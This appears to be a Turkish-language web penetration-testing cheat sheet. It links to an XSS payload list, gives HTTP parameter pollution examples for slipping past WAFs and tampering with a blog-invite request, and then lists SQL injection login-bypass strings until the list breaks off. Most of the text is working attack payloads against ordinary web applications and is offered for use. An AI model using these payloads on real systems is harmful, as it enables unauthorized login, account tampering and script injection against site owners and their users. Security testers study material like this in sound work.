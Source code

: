 [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

CloudFront bypass:

## Parameter Pollution

```jsx
/index.aspx?page=select 1&page=2,3 ----> WAF atlatır

/admin/?kerberos=onmouseover=alert(1)&kerberos  ---> endpoint valid görür ve xss patlatır

security_token=attackertoken&blogID=attackerblogidvalue&blogID=victimblogidvalue&authorsList=goldshlager19test%40gmail.com(attacker email)&ok=Invite
Uygulama ilk blogID parametresini kontrol eder ancak ikinci blogID parametresini kullanır.

/?color=red&color=blue
```

## SQLi

[SQLi](https://www.notion.so/SQLi-e5e8238f67834c41a38ff241e778279a?pvs=21) 

- login bypass
    
    ```bash
    0' or '0' = '0
    1' or '1' = '1
    '-'
    ' '
    '&'
    '^'
    '*'
    ' or ''-'
    ' or '' '
    ' or ''&'
    ' or ''^'
    ' or ''*'
    "-"
    " "
    "&"
    "^"
    "*"
    " or ""-"
    " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true--
    " or true--
    ' or true--
    ") or true--
    ') or true--
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x
    or 1=1
    or 1=1--
    or 1=1#
    or 1=1/*
    ' OORR 1<2 #
    admin' --
    admin' #